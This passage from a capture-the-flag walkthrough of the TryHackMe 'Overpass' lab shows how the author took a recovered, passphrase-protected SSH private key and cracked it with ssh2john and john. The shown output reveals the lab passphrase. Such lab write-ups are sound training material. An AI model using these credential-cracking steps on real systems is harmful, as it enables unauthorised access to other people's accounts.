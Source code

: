 ![Login_admin](assets/img/tryhackme/Overpass/overpass-02.png "Login_admin")


Okay, so far so good. Lets save this key as `textfile` and try to use `ssh` with the user `james`.


```bash
┌──(admin㉿PREDATOR-01)-[~/overpass]
└─$ ssh james@$ip -i ssh_privkey.txt
Enter passphrase for key 'ssh_privkey.txt':
```

The private key is password protected which means we have to crack that. We use `john2ssh` to convert it and `john` to crack the key:

```bash
┌──(admin㉿PREDATOR-01)-[~/overpass]
└─$ ssh2john ssh_privkey.txt > crack_this_key
```
```bash

┌──(admin㉿PREDATOR-01)-[~/overpass]
└─$ john crack_this_key
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 24 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
james13          (ssh_privkey.txt)
```